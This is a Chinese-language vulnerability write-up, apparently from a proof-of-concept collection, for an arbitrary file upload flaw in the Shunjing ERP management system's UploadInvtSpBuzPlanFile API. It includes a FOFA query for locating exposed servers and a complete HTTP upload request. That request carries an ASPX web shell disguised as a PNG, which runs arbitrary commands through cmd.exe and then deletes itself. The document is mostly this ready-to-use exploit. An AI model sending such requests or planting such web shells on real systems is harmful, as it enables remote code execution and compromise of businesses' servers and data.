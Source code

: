 # 顺景ERP管理系统UploadInvtSpBuzPlanFile存在任意文件上传漏洞

顺景ERP管理系统UploadInvtSpBuzPlanFile存在任意文件上传漏洞，允许攻击者上传恶意文件到服务器，可能导致远程代码执行、网站篡改或其他形式的攻击，严重威胁系统和数据安全。

## fofa

```javascript
body="/api/DBRecord/getDBRecords"
```

## poc

```javascript
POST /api/cgInvtSp/UploadInvtSpBuzPlanFile HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7yyQ5XLHOn6WZ6MT
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

------WebKitFormBoundary7yyQ5XLHOn6WZ6MT
Content-Disposition: form-data; name="file"; filename="1.aspx"
Content-Type: image/png

<%@ Page Language="Jscript" validateRequest="false" %><%var c=new System.Diagnostics.ProcessStartInfo("cmd");var e=new System.Diagnostics.Process();var out:System.IO.StreamReader,EI:System.IO.StreamReader;c.UseShellExecute=false;c.RedirectStandardOutput=true;c.RedirectStandardError=true;e.StartInfo=c;c.Arguments="/c " + Request.Item["cmd"];e.Start();out=e.StandardOutput;EI=e.StandardError;e.Close();Response.Write(out.ReadToEnd() + EI.ReadToEnd());System.IO.File.Delete(Request.PhysicalPath);Response.End();%>
------WebKitFormBoundary7yyQ5XLHOn6WZ6MT--
```

![image-20241106224316632](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411062243710.png)